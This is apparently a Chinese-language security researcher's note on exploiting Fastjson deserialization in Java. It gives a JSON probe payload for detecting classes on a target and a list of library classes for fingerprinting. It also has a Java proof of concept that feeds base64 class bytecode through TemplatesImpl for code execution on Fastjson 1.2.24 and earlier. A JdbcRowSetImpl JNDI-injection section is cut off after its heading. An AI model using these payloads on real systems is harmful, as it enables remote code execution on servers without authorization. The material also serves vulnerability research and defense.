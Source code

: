 ```json
{
  "x": {
    "@type": "java.lang.Character"{
  "@type": "java.lang.Class",
  "val": "org.springframework.web.bind.annotation.RequestMapping"
}}
```
若存在`org.springframework.web.bind.annotation.RequestMapping`:
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692849260094-5329d9ea-8fcb-41cf-a1be-f1f0c8f00e1f.png#averageHue=%23fdfafa&clientId=u849ca923-f223-4&from=paste&height=201&id=u0cc7631e&originHeight=251&originWidth=1222&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=44823&status=done&style=none&taskId=u6a03552e-30cc-4f3b-87f4-ad421c7f817&title=&width=977.6)
若不存在：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692849365956-454b7ddd-649d-4f73-9a9a-6f76639887ae.png#averageHue=%23fdfbfb&clientId=u849ca923-f223-4&from=paste&height=167&id=u04a1a345&originHeight=209&originWidth=1085&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36633&status=done&style=none&taskId=ud4f5a7e6-85ff-4314-b050-a1d0f35f9c4&title=&width=868)
## 依赖类列举
列举一些可能会用到的依赖类：对应Poc探测
```java
org.springframework.web.bind.annotation.RequestMapping  //SpringBoot
org.apache.catalina.startup.Tomcat  //Tomcat
groovy.lang.GroovyShell  //Groovy - 1.2.80
com.mchange.v2.c3p0.DataSources  //C3P0
com.mysql.jdbc.Buffer  //mysql-jdbc-5
com.mysql.cj.api.authentication.AuthenticationProvider  //mysql-connect-6
com.mysql.cj.protocol.AuthenticationProvider //mysql-connect-8
sun.nio.cs.GBK  //JDK8
java.net.http.HttpClient  //JDK11
org.apache.ibatis.type.Alias  //Mybatis
org.apache.tomcat.dbcp.dbcp.BasicDataSource  //tomcat-dbcp-7-BCEL
org.apache.tomcat.dbcp.dbcp2.BasicDataSource //tomcat-dbcp-8及以后-BCEL
org.apache.commons.io.Charsets       // 存在commons-io,但不确定版本
org.apache.commons.io.file.Counters  //commons-io-2.7-2.8
org.aspectj.ajde.Ajde  //aspectjtools
```
# FastJson<=1.2.24
## TemplatesImpl
老生常谈了，加载类字节码，也可用于不出网利用。
但存在先天限制条件：需要指定`Feature.SupportNonPublicField` （因此不常使用）
```java
public static void main(String args[]){
        try {
            byte[] bytes = Files.readAllBytes(Paths.get("E:\\Temp.class"));
            String base64 = java.util.Base64.getEncoder().encodeToString(bytes);
            System.out.println(base64);
            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
            String s = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+base64+"\"],'_name':'lemono','_tfactory':{ },\"_outputProperties\":{ },";
            System.out.println(s);
            JSON.parseObject(s, Feature.SupportNonPublicField);
//            Object obj = JSON.parse(s, Feature.SupportNonPublicField);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```
## JdbcRowSetImpl
主要是JDNI注入，一般情况下需出网，同时需考虑JDK版本，因为在Java高版本中LDAP和RMI受到`trustURLCodebase`限制。具体可看:[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)
```java
{
```